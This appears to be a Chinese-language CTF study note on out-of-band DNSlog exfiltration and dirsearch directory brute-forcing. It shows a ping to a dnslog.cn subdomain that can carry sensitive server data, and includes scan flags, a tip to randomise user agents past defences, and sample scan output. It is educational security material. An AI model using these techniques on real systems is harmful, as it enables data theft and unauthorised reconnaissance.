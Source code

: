 ```yaml
---
layout: post
title: "CTF之DNS回显与dirsearch"
date: 2025-05-14
tags: [二进制，gdb，DNSlog，回显，dirsearch，字典，Web]
---
```


### 回显工具：DNSlog
DNS服务器在域名解析过程中，会写日志。解析域名时可以外带出某些服务器敏感信息。可以在`DNSlog`中回显。
###### 一个简单的例子
1. 在DNSlog中，`get subdomain`获得三级域名`o71jc0.dnslog.cn`。  
2. 本地使用ping命令，`ping 123.o71jc0.dnslog.cn`。  
3. 在DNSlog网页中可以记录到域名解析缓存。  
4. 这里解析到的是`123`，但若将`123`替换为某些敏感信息，即可实现回显。

###### 适用场景
1. 无回显的命令执行


###### 一些常见的DNSlog工具
`https://www.dnslog.cn`

> 当然，也可以搭建自己的DNSLog

### web目录扫描工具：dirsearch.exe
> python的开源项目dirsearch。在windows中同版本可执行文件dirsearch.exe

+ 用于CTF信息搜集阶段，通过字典攻击的方式发现网站中可能存在的隐藏目录、文件、后台路径等。
    + 隐藏后台`/admin_panel/`
    + 备份文件`/site.zip`、`index.bak`
    + 隐藏页面`/flag`  

###### 安装与使用
1. `pip3 install dirsearch`
2. 使用方法与举例 `Usage: dirsearch [-u|--url] target [-e|--extensions] extensions [options]`
    + `-u`: 目标 URL
    + `-e`: 指定要扫描的文件扩展名（多个用逗号分隔）
        + 多试试不同的扩展名`.php, .bak, .zip, .tar.gz`
    + `-x` 403,404: 忽略指定状态码
    + `-w`: 指定字典（可选）
        + 默认使用内置字典`/wordlists/`：
        + `common.txt`, `extensions_common.txt`, `small.txt,medium.txt,big.txt`（不同的扫描力度）,`apache.txt,iis.txt, nginx.txt`（针对不同的web服务）
        + 当然也可以指定使用其他字典。如[seclists](https://github.com/danielmiessler/SecLists)
        + 建议：从`common.txt` 或 `small.txt` 开始，快速爆破。若扫不到，再逐步加大字典规模
    + 若被防护系统限制，可设置 `--random-agents` 模拟不同浏览器


```bash
PS C:\Users\xxx> dirsearch.exe -u http://47.105.113.86:40003/

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: C:\Users\xxx\reports\http_47.105.113.86_40003\__25-05-11_16-50-10.txt

Target: http://47.105.113.86:40003/

[16:50:10] Starting:
[16:50:42] 403 -  295B  - /.ht_wsr.txt
[16:50:42] 403 -  298B  - /.htaccess.bak1
...
```

